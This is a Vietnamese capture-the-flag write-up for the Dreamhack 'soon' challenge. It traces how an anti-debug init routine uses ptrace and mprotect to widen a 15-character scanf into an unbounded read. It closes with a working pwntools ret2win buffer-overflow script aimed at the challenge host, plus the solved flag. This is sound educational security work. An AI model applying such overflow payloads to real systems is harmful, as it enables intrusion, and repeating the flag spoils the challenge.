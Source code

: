 ```yaml
---
title: Dreamhack Wargame
date: 2025-2-14 02:30:00 +0700
categories: [rev, pwn]
tag: [Reverse Engineering, Dreamhack Wargame, Pwnable, Ret2Win]
---
```


## soon
* Ở thử thách này, chúng ta sẽ sử dụng kĩ thuật `ret2win` - một kĩ thuật khai thác các lỗ hổng `Buffer Overflow` nhằm ghi đè giá trị trả về của hàm bằng một hàm khác 
* Tuy nhiên, theo tôi cảm thấy thử thách này đòi hỏi nhiều kĩ năng dịch ngược hơn. Và tại sao tôi lại nghĩ như vậy thì hãy bắt đầu vào phân tích

### Phân tích
Tại hàm main của chương trình cho phép nhận vào 15 kí tự            
![image](/assets/Dreamhack%20Wargame/soon/image.png)            

Và ta thấy một hàm để tạo shell         
![image](/assets/Dreamhack%20Wargame/soon/image-1.png)          

Vì input chỉ nhận 15 kí tự nên chắc nhiều bạn (và cả tôi) sẽ nghĩ không thể khai thác bằng `ret2win`          

Xem qua `_init_array` ta thấy `sub_4011B0` và `loc_4011B6` đều được thực thi            
![image](/assets/Dreamhack%20Wargame/soon/image-2.png)          

Xem qua `loc_4011B6`        
Khi tôi decompile thì tôi nhận được thông báo       
![image](/assets/Dreamhack%20Wargame/soon/image-3.png)      

![image](/assets/Dreamhack%20Wargame/soon/image-4.png)          
câu lệnh `jmp` này chính là nguyên nhân         
Đây là một kĩ thuật anti-disassembly, nó khiến cho chương trình hiểu sai và hiển thị chỉ dẫn không chính xác        

Thử kiểm tra trong gdb          
![image](/assets/Dreamhack%20Wargame/soon/image-5.png)              

Chỉ cần sửa `jmp` lại giống như hình bên dưới là được           
![image](/assets/Dreamhack%20Wargame/soon/image-6.png)  

Sau đó ấn p để IDA có thể nhận biết là một hàm          
![image](/assets/Dreamhack%20Wargame/soon/image-7.png)      

Vậy là đã decompile thành công              
![image](/assets/Dreamhack%20Wargame/soon/image-8.png)              

Đầu tiên, chương trình thực hiện tải thư viện động `libc.so.6`                  
![image](/assets/Dreamhack%20Wargame/soon/image-9.png)                      

Tiếp đến thực hiện giải mã chuỗi có nội dung là `ptrace` và `mprotect`                  
![image](/assets/Dreamhack%20Wargame/soon/image-10.png)                     

Sau đó thực hiện gọi `dlsym` tìm`ptrace` và thực thi                    
![image](/assets/Dreamhack%20Wargame/soon/image-11.png)                                        

Nếu thành công thì nó sẽ gọi `dlsym` tìm `mprotect` và thực thi để thêm quyền ghi và đọc vào vùng lưu trữ chuỗi kí tự `%15s` (4096 byte) và thay đổi chuỗi thành `%s`               
![image](/assets/Dreamhack%20Wargame/soon/image-12.png)                                                             

Tuy nhiên thông qua `ptrace` cũng có thể phát hiện debug nên sẽ không thể gọi tới `mprotect` nếu như đang debug                 

Lúc này chương trình của chúng ta sẽ là `%s` thay vì `%15s` như ban đầu                 
![image](/assets/Dreamhack%20Wargame/soon/image.png)                 

### Khai thác                                       
Như đã nói chúng ta sẽ sử dụng kĩ thuật `ret2win`                           
Thực hiện ghi đè lên vùng nhớ đề chương trình có thể chuyển đến shellcode                       
![alt text](/assets/Dreamhack%20Wargame/soon/image-13.png)                  

**Script**                  
```python
from pwn import *

HOST = "host1.dreamhack.games"
PORT = 9248

# p = process("./main")
p=remote(HOST, PORT)

payload = b'a'*256 + b'b'*8 + p64(0x401303)

p.sendline(payload)
p.interactive()
```
`Flag: DH{function_in_0x4011B6_was_the_key_of_this_trick_15124b5daffd04}`